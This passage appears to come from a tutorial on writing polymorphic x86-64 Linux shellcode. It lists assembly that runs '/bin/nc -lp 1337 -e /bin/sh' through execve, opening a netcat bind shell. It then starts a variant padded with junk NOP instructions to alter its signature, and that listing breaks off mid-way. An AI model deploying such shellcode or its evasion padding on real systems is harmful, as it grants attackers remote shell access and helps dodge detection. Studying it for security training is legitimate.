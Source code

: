 ```term
mov	r10,rsp

mov	r9,0x702dffffffffffff
shr	r9,0x30
push 	r9
mov	r9,rsp

mov 	r8,0x6c2dffffffffffff
shr	r8,0x30
push 	r8
mov	r8,rsp

push	rdx  ;push NULL
push 	rcx  ;push address of 'bin/sh'
push	rbx  ;push address of '-e'
push	r10  ;push address of '1337'
push	r9   ;push address of '-p'
push	r8   ;push address of '-l'
push 	rdi  ;push address of '/bin/nc'

mov    	rsi,rsp
mov    	al,59
syscall
```

There aren't many things that we can do. Nonetheless, we can apply similar techniques as we did on the previous shellcode.

###### Final code:

```term
global _start

_start:

xor rdx, rdx

inc al                                        ; Garbage NOP
inc cl                                        ; Garbage NOP

mov 	rdi,0x636e2f6e69622fff
shr	rdi,0x08

push 	rdi
mov 	rdi,rsp

mov	rcx,0x68732f6e69622fff
shr	rcx,0x08
stc                                           ; Garbage NOP
push 	rcx

nop                                           ; Garbage NOP
nop                                           ; Garbage NOP

mov	rcx,rsp

mov     rbx,0x652dffffffffffff

shr al, 2                                     ; Garbage NOP

shr	rbx,0x30
cdq                                           ; Garbage NOP
nop                                           ; Garbage NOP
cmc                                           ; Garbage NOP
```